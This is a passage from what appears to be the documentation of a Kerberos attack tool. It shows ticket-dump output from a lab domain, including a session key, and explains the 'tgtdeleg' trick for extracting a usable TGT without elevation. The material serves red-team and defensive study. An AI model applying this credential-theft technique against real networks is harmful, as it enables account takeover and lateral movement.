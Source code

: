         doIFFjCCBRKgAwIBBaEDAgEWoo...(snip)...

        ...(snip)...

    UserName                 : WINDOWS10$
    Domain                   : TESTLAB
    LogonId                  : 0x3e4
    UserSID                  : S-1-5-20
    AuthenticationPackage    : Negotiate
    LogonType                : Service
    LogonTime                : 2/7/2019 4:51:20 PM
    LogonServer              : 
    LogonServerDNSDomain     : testlab.local
    UserPrincipalName        : WINDOWS10$@testlab.local

        [*] Enumerated 4 ticket(s):

        ServiceName              : krbtgt/TESTLAB.LOCAL
        TargetName               : krbtgt/TESTLAB.LOCAL
        ClientName               : WINDOWS10$
        DomainName               : TESTLAB.LOCAL
        TargetDomainName         : TESTLAB.LOCAL
        AltTargetDomainName      : TESTLAB.LOCAL
        SessionKeyType           : rc4_hmac
        Base64SessionKey         : 0NgsSyZ/XOCTi9wLR1z9Kg==
        KeyExpirationTime        : 12/31/1600 4:00:00 PM
        TicketFlags              : name_canonicalize, pre_authent, renewable, forwarded, forwardable
        StartTime                : 2/11/2019 3:23:50 PM
        EndTime                  : 2/11/2019 7:23:48 PM
        RenewUntil               : 2/18/2019 2:23:48 PM
        TimeSkew                 : 0
        EncodedTicketSize        : 1304
        Base64EncodedTicket      :

        doIFFDCCBRCgAwIBBaEDAgEWoo...(snip)...

        ...(snip)...


    [*] Enumerated 20 total tickets
    [*] Extracted  9 total tickets


### tgtdeleg

The **tgtdeleg** using [@gentilkiwi](https://twitter.com/gentilkiwi)'s [Kekeo](https://github.com/gentilkiwi/kekeo/) trick (**tgt::deleg**) that abuses the Kerberos GSS-API to retrieve a usable TGT for the current user without needing elevation on the host. AcquireCredentialsHandle() is used to get a handle to the current user's Kerberos security credentials, and InitializeSecurityContext() with the ISC_REQ_DELEGATE flag and a target SPN of HOST/DC.domain.com to prepare a fake delegate context to send to the DC. This results in an AP-REQ in the GSS-API output that contains a KRB_CRED in the authenticator checksum. The service ticket session key is extracted from the local Kerberos cache and is used to decrypt the KRB_CRED in the authenticator, resulting in a usable TGT .kirbi.

If automatic target/domain extraction is failing, a known SPN of a service configured with unconstrained delegation can be specified with `/target:SPN`.
